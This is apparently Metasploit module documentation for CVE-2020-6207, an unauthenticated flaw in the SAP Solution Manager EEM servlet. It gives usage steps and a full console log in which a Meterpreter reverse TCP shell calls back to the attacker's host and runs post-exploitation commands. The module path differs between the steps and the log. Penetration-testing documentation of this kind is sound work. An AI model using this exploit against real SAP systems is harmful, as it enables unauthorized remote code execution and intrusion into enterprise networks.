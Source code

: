 ## Vulnerable Application
This module exploits the CVE-2020-6207 vulnerability within the SAP EEM servlet (tc~smd~agent~application~eem) of
SAP Solution Manager (SolMan) running version 7.2. The vulnerability occurs due to missing authentication
checks when submitting a SOAP request to the /EemAdminService/EemAdmin page to get information about connected SMDAgents,
send HTTP request (SSRF) and execute OS command on connected SMDAgent. Works stable in connected SMDAgent with Java version 1.8.

Successful exploitation will allow unauthenticated remote attackers to get reverse shell from connected to the SolMan
agent as the user under which it runs SMDAgent service, usually daaadm.

Paper: [An Unauthenticated Journey to Root][1]

### Application Background
In SAP landscapes, SolMan could be compared to a domain controller system in the Microsoft world.
It is a technical system that is highly connected with powerful privileges to all other SAP systems.
Once an SAP system is connected to the solution manager, it receives the name of a "managed" or "satellite" system.
As an administration solution, SolMan is intended to centralize the management of all the systems within the landscape by
performing actions such as implementing, supporting, monitoring and maintaining enterprise solutions.

### Installation Steps
Steps to install, configure and manage SolMan can be found online at [this page][2].

Once set up and configured, the instances will be vulnerable at the default HTTP port 50000.

## Verification Steps

1. Start msfconsole
1. Do: `workspace [WORKSPACE]`
1. Do: `use auxiliary/admin/sap/sap_2020_6207_solman_rs`
1. Do: `set RHOSTS [SolMan IP]`
1. Do: `set LHOST [Your IP]`
1. Do: `check`
1. Verify that the target is vulnerable and the list of connected agents was returned.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `exploit`
1. Verify that the session from the connected agent was created.

## Options

### TARGETURI

This is the path to the EEM admin page of the SolMan that is vulnerable to CVE-2020-6207.
By default, it is set to `/EemAdminService/EemAdmin`. However, it can be changed if SolMan
was installed by a path different from that of the web root. For example, if the SolMan
server was proxied to the `/solman/` path under the web root, then this value would be
set to `/solman/EemAdminService/EemAdmin`.

### AGENT

Connected agent server name.
Example: `linux_agent`

## Scenarios

### Vulnerable SolMan 7.2 running on agent: test_linux with OS: Linux and java version: 1.8

```
msf > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf > use exploit/multi/sap/cve_2020_6207_solman_rs
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(multi/sap/cve_2020_6207_solman_rs) > set RHOST 172.16.30.46
RHOST => 172.16.30.46
msf exploit(multi/sap/cve_2020_6207_solman_rs) > set LHOST 192.168.50.3
LHOST => 192.168.50.3
msf exploit(multi/sap/cve_2020_6207_solman_rs) > check

[+] Successfully retrieved agent list:
Connected Agents List
=====================

 Server Name   Host Name                Instance Name  OS Name                 Java Version
 -----------   ---------                -------------  -------                 ------------
 test_windows  SAP731.corp.test.com     SMDA97         Windows Server 2008 R2  1.6.0_29
 test_linux    SAPERP7.corp.test.com    SMDA98         Linux                   1.8.0_25

[+] 172.16.30.46:50000 - The target is vulnerable.
msf exploit(multi/sap/cve_2020_6207_solman_rs) > set AGENT test_linux
AGENT => test_linux
msf exploit(multi/sap/cve_2020_6207_solman_rs) > exploit

[*] Started reverse TCP handler on 192.168.50.3:4444
[*] Enable EEM on agent: test_linux
[*] Sending stage (3008420 bytes) to 172.16.30.14
[*] Command Stager progress - 100.00% done (809/809 bytes)
[*] Meterpreter session 1 opened (192.168.50.3:4444 -> 172.16.30.14:60203) at 2021-03-25 17:03:38 +0300

meterpreter > getuid
Server username: daaadm @ SAPERP7 (uid=1004, gid=1001, euid=1004, egid=1001)
meterpreter > pwd
/usr/sap/DAA/SMDA98/SMDAgent
meterpreter > ipconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 16436
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv4 Address : 127.0.0.2
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff::


Interface  2
============
Name         : eth0
Hardware MAC : 00:0c:29:f4:8d:e0
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.16.30.14
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::20c:29ff:fef4:8de0
IPv6 Netmask : ffff:ffff:ffff:ffff::

meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/sap/cve_2020_6207_solman_rs) > services
Services
========

host          port   proto  name  state  info
----          ----   -----  ----  -----  ----
172.16.30.46  50000  tcp    soap  open   SAP Solution Manager

msf exploit(multi/sap/cve_2020_6207_solman_rs) > vulns

Vulnerabilities
===============

Timestamp                Host          Name                                                            References
---------                ----          ----                                                            ----------
2021-03-25 14:03:37 UTC  172.16.30.46  SAP Solution Manager remote unauthorized OS commands execution  CVE-2020-6207,URL-https://i.blackhat.com/USA-20/Wednesday/us-20-
                                                                                                       Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-E
                                                                                                       nterprise-Software-Servers-wp.pdf,URL-https://github.com/chipik/
                                                                                                       SAP_EEM_CVE-2020-6207

msf exploit(multi/sap/cve_2020_6207_solman_rs) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                                       Connection
  --  ----  ----                   -----------                                                                       ----------
  1         meterpreter x64/linux  daaadm @ SAPERP7 (uid=1004, gid=1001, euid=1004, egid=1001) @ SAPERP7.corp.te...  192.168.50.3:4444 -> 172.16.30.14:60203 (::1)

```

[1]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[2]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/
